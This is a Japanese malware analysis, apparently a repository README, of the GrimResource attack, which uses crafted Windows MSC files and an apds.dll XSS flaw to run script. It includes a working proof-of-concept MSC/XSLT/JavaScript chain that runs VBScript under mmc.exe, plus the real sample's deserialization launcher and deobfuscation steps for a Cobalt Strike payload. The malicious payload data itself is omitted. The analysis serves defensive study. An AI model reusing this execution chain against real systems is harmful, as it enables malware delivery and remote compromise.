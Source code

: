 # GrimResource攻撃についての分析

マルウェア添付メールの新しい手法として、GrimResource攻撃というものが報告されました。  
https://www.elastic.co/security-labs/grimresource

この攻撃は、MSCファイルというWindowsの管理コンソール用のファイルを使った攻撃です。実際の検体は以下ですね。  
https://www.virustotal.com/gui/file/14bcb7196143fd2b800385e9b32cfacd837007b0face71a73b546b53310258bb/community

## 何が悪用されるのか

MSCファイルは内部的にはXMLです。  
そこで、「apds.dll」が持つXSS脆弱性を悪用し、任意のJavaScriptを実行します。
さらにXSSは通常ブラウザで実行された場合は、ブラウザ内での挙動のみですが、「[DotNetToJScript](https://github.com/tyranid/DotNetToJScript)」を使うことで、dotnetアセンブリをロードするJSが作れます。これを仕込むことでメモリ上で実行させるコードが作れます。  

ちなみにJavaScriptを色々見ていくと、以下でも使われているVBSでシェルコードを実行するための機能が使われていました。  
https://github.com/mdsecactivebreach/CACTUSTORCH/blob/master/CACTUSTORCH.vbs


## 解説
### テストスクリプトで動作を確認

まず、MSCファイルには以下の様にjavascriptが仕込めます。以下は該当の場所だけ抜粋しています。  

```xml
<?xml version="1.0"?><MMC_ConsoleFile ConsoleVersion="3.0" ProgramMode="UserSDI">
  <StringTables>
    <StringTable>
      <Strings>
        <String ID="39" Refs="1">res://apds.dll/redirect.html?target=javascript:eval("alert('GRIMRESOURCE')")</String>
      </Strings>
    </StringTable>
  </StringTables>
</MMC_ConsoleFile>
```

実際に実行すると以下の様に表示されます。

![javascript-alert](./images/alert.png)

プロセスとしてはmmc.exeのようですね。

![taskmgr-mmc](./images/mmc-process.png)


さて、次はjavascriptからvbsを呼び出す実際の検体と同じ動きをさせてみます。  
試すVBScriptコードは、以下にします。  
Cドライブ直下にExampleFile.txtが作成されたら成功です。

```vbscript
Dim objFSO
Set objFSO = CreateObject("Scripting.FileSystemObject")
Dim objFile
Set objFile = objFSO.CreateTextFile("C:\ExampleFile.txt", True)
objFile.WriteLine("writefiles")
objFile.Close
```

このコードを以下の様にXMLのms:scriptに仕込みます。

```xml
<?xml version='1.0'?>
<stylesheet
    xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
    xmlns:user="placeholder"
    version="1.0">
    <output method="text"/>
    <ms:script implements-prefix="user" language="VBScript"><![CDATA[Dim objFSO
Set objFSO = CreateObject("Scripting.FileSystemObject")
Dim objFile
Set objFile = objFSO.CreateTextFile("C:\ExampleFile.txt", True)
objFile.WriteLine("writefiles")
objFile.Close
]]></ms:script>
</stylesheet>
```

これをURLエンコードして、以下の様にJavaScript上でロードするようにします。

```javascript
<String ID="8" Refs="2">// Console Root
    var scopeNamespace = external.Document.ScopeNamespace;
    var rootNode = scopeNamespace.GetRoot()
    var mainNode = scopeNamespace.GetChild(rootNode)
    var docNode = scopeNamespace.GetNext(mainNode)

    external.Document.ActiveView.ActiveScopeNode = docNode
    docObject = external.Document.ActiveView.ControlObject
    external.Document.ActiveView.ActiveScopeNode = mainNode

    var XML = docObject;
    XML.async = false
    var xsl = XML;
    xsl.loadXML(unescape("urlencode-text")) // ここにURL
    XML.transformNode(xsl)
</String>
<String ID="23" Refs="2">Document</String>
<String ID="24" Refs="1">{2933BF90-7B36-11D2-B20E-00C04F983E60}</String>
<String ID="38" Refs="2">Main</String>
<String ID="39" Refs="1">res://apds.dll/redirect.html?target=javascript:eval(external.Document.ScopeNamespace.GetRoot().Name)</String>
```

これで実行すると、以下の様にファイルが作成されました。

![createfile](./images/createfile.png)

書き込みプロセスを確認すると、この場合でもmmc.exeによって実行されるようです。

![createfile](./images/createfile2.png)


### 実際の攻撃コードを見てみる

上に書いてきたものと同じ方式でVBScriptが実行されます。  
重要なのは、VBScriptの中身がどうなっているかですね。これは見る限り以下のシェルコードを実行する方法がとられています。

https://github.com/mdsecactivebreach/CACTUSTORCH/blob/master/CACTUSTORCH.vbs


正直、書いてある内容を全て説明するときりがないので、細かい点は「[malicous.vbs](./malicous.vbs)」をご覧ください。  

重要な点としては、以下で攻撃コードが実行されています。

```vb
Dim Xuxzl
Xuxzl = "..." ' very big strings

Dim launcher
Set launcher = CreateObject("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter")
launcher.Deserialize_2(shellcodeDecryptor(Xuxzl, 37317))
```

また、以下の様にProcess環境変数をセットしているため、恐らく攻撃コードが実行された後、このデータを取得して悪用すると思われます。  
(Process環境変数にセットしておけば、子プロセスなどでも読み取り可能です)

```vb
Dim iICMct
Set iICMct = ws.Environment("Process")

iICMct.Item("B_1") = "...B_1..."
' snip B_2 to B_447
iICMct.Item("B_448") = "...B_448..."
```
Note: ちなみにどちらも本体となるデータは悪性のため割愛しています。

Xuxzlについては、以下の処理を加えることでbase64になります。  

1. スペースを削除
2. 文字列を逆転
3. 4の倍数になるように末尾に"="を必要な数だけ追加

これを実際にしたうえで、base64デコードした結果が以下です。

![decode-by-cyberchef](./images/cyberchef1.png)

また、Process環境変数に指定したファイルはデコードすると、どうやらPEファイルのようです。  

![decode-by-cyberchef](./images/cyberchef2.png)

これを実際に保存するとどうやらCobalt Stirke Beaconのようです。  
sha256: c1bba723f79282dceed4b8c40123c72a5dfcf4e3ff7dd48db8cb6c8772b60b88
https://www.virustotal.com/gui/file/c1bba723f79282dceed4b8c40123c72a5dfcf4e3ff7dd48db8cb6c8772b60b88

![virustotal-check](./images/virustotal-payload.png)

以上です。

